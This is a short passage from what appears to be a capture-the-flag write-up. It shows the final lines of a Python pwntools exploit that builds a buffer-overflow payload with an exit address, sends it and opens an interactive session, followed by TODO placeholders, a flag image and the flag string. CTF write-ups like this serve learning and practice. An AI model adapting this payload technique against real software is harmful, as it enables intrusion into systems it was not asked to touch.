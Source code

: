 ```python
payload2 += p32(ADDR_EXIT)
payload2 += p32(0)
r.sendline(payload2)

banner = r.recvall()
sys.stdout.buffer.write(banner)

r.interactive()
```

TODO

![b0bb's challenge flag](/assets/images/ctf/bday-b0bb-flag.png)

TODO

Flag: BDayCTF{Many_Happy_Returns}

## [capsl's Challenge](https://twitter.com/capslcc/status/1250046148133277698)
